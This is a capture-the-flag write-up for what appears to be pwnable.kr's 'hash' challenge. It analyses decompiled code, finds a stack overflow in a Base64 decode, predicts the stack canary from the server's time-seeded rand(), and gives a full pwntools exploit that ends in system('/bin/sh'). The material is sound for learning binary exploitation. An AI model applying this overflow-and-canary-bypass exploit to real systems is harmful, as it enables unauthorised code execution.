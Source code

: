 Opening file with IDA, we will find the main function is ``process_hash``:

```cc
int process_hash()
{
  int v0; // ST14_4@3
  void *ptr; // ST18_4@3
  char v3; // [sp+1Ch] [bp-20Ch]@1
  int v4; // [sp+21Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  memset(&v3, 0, 0x200u);
  while ( getchar() != 10 );
  memset(g_buf, 0, sizeof(g_buf));
  fgets(g_buf, 1024, stdin);
  memset(&v3, 0, 0x200u);
  v0 = Base64Decode(g_buf, &v3);
  ptr = (void *)calc_md5(&v3, v0);
  printf("MD5(data) : %s\n", ptr);
  free(ptr);
  return *MK_FP(__GS__, 20) ^ v4;
}

The problem is, ``g_buf`` has 1024 bytes memory, but ``u`` only has 512 bytes, but A 1024 bytes base64 string will be 768 long after decoded, so here has a stackoverflow. And then, we need bypass stack canary.

Let's look at ``my_hash``:

```cc
int my_hash()
{
  int result; // eax@4
  int v1; // edx@4
  signed int i; // [sp+0h] [bp-38h]@1
  char v3[32]; // [sp+Ch] [bp-2Ch]@2
  int v4; // [sp+2Ch] [bp-Ch]@1

  v4 = *MK_FP(__GS__, 20);
  for ( i = 0; i <= 7; ++i )
    *(_DWORD *)&v3[4 * i] = rand();
  result = *(_DWORD *)&v3[16]
         - *(_DWORD *)&v3[24]
         + *(_DWORD *)&v3[28]
         + v4
         + *(_DWORD *)&v3[8]
         - *(_DWORD *)&v3[12]
         + *(_DWORD *)&v3[4]
         + *(_DWORD *)&v3[20];
  v1 = *MK_FP(__GS__, 20) ^ v4;
  return result;
}
```

In this function, cookie is used to generate a hash, and we will get this hash in process. Think of hint given by web site, ``this service shares the same machine with pwnable.kr web service``, so their time is same, we can use this to calculate stack canary and get shell.

we can get canary with following script.

```cc
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv) 
{
    int m = atoi(argv[2]);
    int rands[8];
    srand(atoi(argv[1]));
    for (int i = 0; i <= 7; i++) rands[i] = rand();
    m -= rands[1] + rands[2] - rands[3] + rands[4] + rands[5] - rands[6] + rands[7];
    printf("%x\n", m);
    return 0;
}
```

After calculate stack canary, we can write explotion now, the main idea is to overflow ``v3``, with the verification code and time to calculate the stack cookie. At last, call ``system("/bin/sh")``. 

```python
import os
import time
from pwn import *

p = remote("pwnable.kr", 9002)
t = int(time.time())
print p.recvuntil("captcha")
captcha = p.recvline()
captchapos = captcha.find(' : ')+len(' : ')
captcha = captcha[captchapos:].strip()
p.sendline(captcha)
print p.recvline()
print p.recvline()
cmd = "./hash %s %s" % (t, captcha)
cookie = "0x" + os.popen(cmd).read().strip()

payload = 'A' * 512 # 512 byte v3
payload += p32(int(cookie, 16))
payload += 'A' * 12
payload += p32(0x08049187)  # system
payload += p32(0x0804B0E0 + 537*4/3)  # .bss => address of /bin/sh
payload = b64e(payload)
payload += "/bin/sh\0"
p.sendline(payload)
p.interactive()
```
